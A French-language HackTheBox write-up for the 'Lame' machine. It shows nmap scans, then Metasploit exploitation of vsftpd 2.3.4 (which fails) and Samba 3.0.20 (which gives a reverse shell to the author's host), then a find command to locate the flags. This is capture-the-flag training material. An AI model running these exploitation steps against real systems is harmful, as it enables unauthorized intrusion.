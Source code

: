 # Lame - Easy

### Objectif : 
    Se connecter à la machine et trouver les flags de user.txt et root.txt

### Information :

Addresse IP : **10.10.10.3**

### Process : 

##### Récolte d'information : 

###### Scan du réseau : 

```bash
# premier scan
nmap 10.10.10.3 -sV -Pn
# deuxième scan
nmap 10.10.10.3 -sV -sC -Pn -p-

```
*
    * sV : Détecte les versions des services
    * -Pn : Ignore la découverte d'hôtes
    * -p- : Scan de tous les ports
    * -sC : Scripts de vulnérabilité et de 

###### résultat du premier scan
!["Étapes d'un pentest"](../../Ressources/IMG/Machine-Lame-01.png)

###### résultats du deuxième scan
!["Étapes d'un pentest"](../../Ressources/IMG/Machine-Lame-02.png)
!["Étapes d'un pentest"](../../Ressources/IMG/Machine-Lame-03.png)

###### Détection des vulnérabilités :

Nous utiliserons métasploit pour détecter et exploiter les vulnérabilités

**Accès à métasploit**
```bash
msfconsole
```
###### Recherche de la vulnérabilité
```bash
# dans la console de metasploit
 search vsftpd 2.3.4
 use 0 
 setg RHOSTS 10.10.10.3
 exploit
```

###### Exploitation de la vulnérabilité

##### vulnérabilité 1 : vsftpd 2.3.4
!["Étapes d'un pentest"](../../Ressources/IMG/Machine-Lame-6.png)

Étant donné que le premier ne marche pas, on va essayer de chercher d'autres vulnérabilités : essayons l'os découvert grâce au scan nmap : **samba 3.0.20** 
##### vulnérabilité 2 : samba 3.0.20
```bash
# dans la console de metasploit
 search samba 3.0.20
 use 0 
 setg RHOSTS 10.10.10.3
 setg LHOST <Mon addresse IP>
 exploit
```
!["Étapes d'un pentest"](../../Ressources/IMG/Machine-Lame-04.png)


!["Étapes d'un pentest"](../../Ressources/IMG/Machine-Lame-05.png)
Nous avons donc accès à la console de la cible
###### Recherche des fichier avec 
```bash
# cette commande nous donne les répertoires dans lesquelles se trouves les fichiers qu'on recherche
find / -name "nom_du_fichier" 2>/dev/null
```

!["Étapes d'un pentest"](../../Ressources/IMG/Machine-Lame-07.png)

### Ce que j'ai Appris :
* Ceci est ma première Machine HackTheBox
> chercher un ficher dans tous les répertoire tout en évitant les nombreuses affichages d'échec :
  find / -name "nom_du_fichier" 2>/dev/null 